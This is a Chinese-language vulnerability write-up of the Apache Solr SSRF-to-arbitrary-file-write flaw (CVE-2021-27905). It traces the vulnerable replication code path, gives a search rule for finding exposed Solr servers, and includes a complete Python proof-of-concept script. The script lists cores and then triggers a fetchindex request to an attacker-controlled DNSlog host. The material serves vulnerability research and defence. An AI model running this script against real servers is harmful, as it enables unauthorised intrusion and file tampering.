 ###　Apache Solr 8.8.1 SSRF to Arbitrary File Write Vulnerability


### 漏洞介绍

	Solr是一个独立的企业级搜索应用服务器，它对外提供类似于Web-service的API接口。用户可以通过http请求，向搜索引擎服务器提交一定格式的XML文件，生成索引；
	此漏洞要从SSRF-CVe-2021-27905 说起,漏洞引发原因由于SolrCloud Recovery 策略.

**攻击途径**：`远程`

**认证**：`不需要`

**攻击复杂度**：`低`

#### 影响产品

	Solr 版本<=8.8.6

#### 搜索规则：
	
	app="Apache-Solr"

### RCE前提
	
	1.具有root 权限
	2.存在Core

### 漏洞原理：

	SSRF:
	第一步：访问http://ip:8983/solr/admin/cores?indexInfo=false&wt=json。获取core列表

![](img/11.png)	

	http://your-ip/solr/{core}/replication/?command=fetchindex&masterUrl=http://{dnslog}

	当程序接收到fetchindex 参数时,会再次获取masterUlr 并进行请求.
	1.处为获取将要请求的url
	2.开启一个线程进行请求

![](img/1.png)

	继续跟进doFetch 函数，发现随后调用了IndexFetcher 方法

![](img/2.jpg)

	随后进去IndexFetcher 函数，找到发出请求的函数

![](img/3.jpg)

	至此。SSRF漏洞结束。开始进行任意写文件漏洞。
	继续跟踪函数发现，函数从返回值中获取两个值 并赋值给了latestVersion 与 latestGeneration。

![](img/4.jpg)

	通过构造返回值latestVersion 绕过if语句。
	随后进入fetchFileList函数，在这个函数中，程序会再次请求目标地址并获取将要下载的filelist

![](img/5.jpg)

	在这个请求中，程序会获取一个文件列表，其中包含：index文件、conf文件、tlog文件。
	并将在第三个请求中进行相应文件下载。

![](img/6.jpg)

	在 downloadIndexFiles() 函数中进行第三次请求。

![](img/7.jpg)

	坑：
	
	进入downloadIndexFiles 函数中走到compareFile时 会报一个错，此时因为使用源码进行程序启动时未加载zookepper ，所以其中需要使用相关的函数会报错。当使用正常程序时则会正常。

![](img/8.jpg)

	进入downloadConfFiles函数，此函数中可以看到如何进行任意文件写

![](img/9.jpg)
	
	至此漏洞分析结束。可以看到文件名完全可控，并未进行任何其他处理。

![](img/10.jpg)

### 验证演示：

![](验证.mp4)

### 验证程序

```

import requests
import urllib3
import json
import sys, getopt
urllib3.disable_warnings()

def commit():
    url = ""
    try:
        opt, agrs = getopt.getopt(sys.argv[1:], "hu:d:", ["help", "url=","dnslog="])
        for op, value in opt:
            if op == "-h" or op == "--help":
                print("""
            [-]   Apache Solr SSRF漏洞 (CVE-2021-27905)
            [-]   Options:
                     -h or --help      :   方法说明
                     -u or --url       :   站点URL地址
                     -d or --dnslog    :   DnsLog
                """)
                sys.exit(0)
            elif op == "-u" or op == "--url=":
                url = value
            elif op == "-d" or op == "--dnslog=":
                dnslog = value
            else:
                print("[-] 参数有误! eg:>>> python3 CVE-2021-27905.py -u http://127.0.0.1 -d dnslog")
                sys.exit()
        return url, dnslog

    except Exception as e:
        print("[-] 参数有误! eg:>>> python3 CVE-2021-27905.py -u http://127.0.0.1 -d dnslog")
        sys.exit(0)

def target_core(url):
    target_url = url + "/solr/admin/cores?indexInfo=false&wt=json"
    headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.1916.47 Safari/537.36"
    }
    try:
        res = requests.get(url=target_url,headers=headers,verify=False,timeout=5)
        print(target_url,'[]',res.text)
        core = list(json.loads(res.text)["status"])[0]
        return core
    except Exception as e:
        print(f"[!]  目标系统: {url} 出现意外！\n ",e)

def ssrf(core,dnslog):
    target_url = url + f"/solr/{core}/replication/?command=fetchindex&masterUrl=http://{dnslog}"
    headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.1916.47 Safari/537.36"
    }
    try:
        res = requests.get(url=target_url, headers=headers, verify=False, timeout=5)
        print(target_url)
        status = json.loads(res.text)["status"]
        if res.status_code == 200 and status == "OK":
            print(f"[!]  \033[31m目标系统: {url} 可能存在SSRF漏洞，请检查DNSLog响应！\033[0m")
        else:
            print(f"[0]  目标系统: {url} 不存在SSRF漏洞")

    except Exception as e:
        print(f"[!]  目标系统: {url} 出现意外！\n ", e)


if __name__ == "__main__":
    url ,dnslog = commit()
    core = target_core(url)
    ssrf(core,dnslog)

```

### 验证视频：

![](POC验证.mp4)

### 验证程序使用文档：

python3 CVE-2021-27905.py -u url -d dnslog

### 产品程序：

![](solr-8.8.0.zip)

### 攻击流量：

![](Solr.pcapng)

#### 参考资料：

http://noahblog.360.cn/apache-solr-8-8-1-ssrf-to-file-write/

https://www.cnblogs.com/rcfeng/p/4148733.html